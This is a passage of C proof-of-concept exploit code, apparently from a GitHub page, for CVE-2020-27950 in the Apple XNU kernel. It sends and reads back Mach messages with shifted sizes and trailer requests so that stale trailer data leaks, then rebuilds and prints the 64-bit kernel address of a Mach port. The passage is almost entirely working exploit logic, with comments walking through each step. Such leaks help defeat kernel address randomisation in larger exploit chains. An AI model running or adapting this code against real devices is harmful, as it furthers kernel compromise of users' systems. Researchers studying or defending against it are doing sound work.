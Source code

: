 ```c
     */
    memset(buffer, 0, big_size + MAX_TRAILER_SIZE);
    printf("[*] Reading back message 2\n");
    mach_msg((mach_msg_header_t *)buffer,
             MACH_RCV_MSG | MACH_RCV_TRAILER_ELEMENTS(5), // core of CVE-2020-27950
             0,
             small_size + sizeof(uint32_t) + MAX_TRAILER_SIZE, // ensure room for max trailer
             port,
             MACH_MSG_TIMEOUT_NONE,
             MACH_PORT_NULL);

    // Trailer begins right after the message body we sent (small_size + 4)
    trailer = (mach_msg_mac_trailer_t *)(buffer + small_size + sizeof(uint32_t));

    // Leak low 32 bits from msgh_ad (stale data → expected to be the low dword of an ipc_port*)
    sent_port_address |= (uint32_t)trailer->msgh_ad;

    /*
     * Step E: Repeat the A→D cycle but now shift by another +4 bytes.
     *         This moves the overlap window so `msgh_ad` captures the high 4 bytes.
     */
    printf("[*] Sending message 3\n");
    mach_msg(&big_message->header, MACH_SEND_MSG, big_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);

    printf("[*] Discarding message 3\n");
    mach_msg((mach_msg_header_t *)0, MACH_RCV_MSG, 0, 0, port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);

    // add another +4 to msgh_size → total +8 shift from the baseline
    small_message->header.msgh_size = small_size + sizeof(uint32_t)*2;
    printf("[*] Sending message 4\n");
    mach_msg(&small_message->header,
             MACH_SEND_MSG,
             small_size + sizeof(uint32_t)*2,
             0,
             MACH_PORT_NULL,
             MACH_MSG_TIMEOUT_NONE,
             MACH_PORT_NULL);

    memset(buffer, 0, big_size + MAX_TRAILER_SIZE);
    printf("[*] Reading back message 4\n");
    mach_msg((mach_msg_header_t *)buffer,
             MACH_RCV_MSG | MACH_RCV_TRAILER_ELEMENTS(5),
             0,
             small_size + sizeof(uint32_t)*2 + MAX_TRAILER_SIZE,
             port,
             MACH_MSG_TIMEOUT_NONE,
             MACH_PORT_NULL);

    trailer = (mach_msg_mac_trailer_t *)(buffer + small_size + sizeof(uint32_t)*2);

    // Combine the high 32 bits, reconstructing the full 64-bit kernel pointer
    sent_port_address |= ((uintptr_t)trailer->msgh_ad) << 32;

    printf("[+] Port %x has address %lX\n", sent_port, sent_port_address);

    return 0;
}
```
